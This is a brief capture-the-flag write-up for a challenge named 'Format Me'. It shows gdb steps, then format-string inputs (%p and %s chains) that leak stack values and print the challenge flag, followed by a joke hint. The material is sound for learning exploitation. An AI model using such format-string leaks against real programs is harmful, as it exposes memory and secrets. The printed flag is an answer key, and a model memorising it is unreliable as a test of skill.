 ##Format Me
Can you please format me to obtain the flag?

###Solution

1.  chmod +x format
2.  gdb format
3.  pd main/disas main
4.  set breakpoint b*0x000000000040115c
5.  r
6.  n
7.  you will see that the flag is in the RAX register
8.  do %p until you see the address to to flag.
9.  to leak out the flag, exit gdb and input %p%p%p%p%p%p >> 0x10x7f03a7a9f8d00x7a667f0x7f03a7a9f8c0(nil)0x7ffd68727140
10. this is the complete flag but in disintegrated addresess 
11. To leak the string form input %p%p%p%p%p%p%s >> 0x10x7f03a7a9f8d00x7a667f0x7f03a7a9f8c0(nil)0x7ffd68727140enc0re{f0rm4t_5tr1n6_vuln3r4b1l1ty}

###Flag
**Flag:** enc0re{f0rm4t_5tr1n6_vuln3r4b1l1ty}

###Hints
Ahh there are kite strings all over the place cutting people's feet. I was planning to format my phone but you know,
vulnerable people priority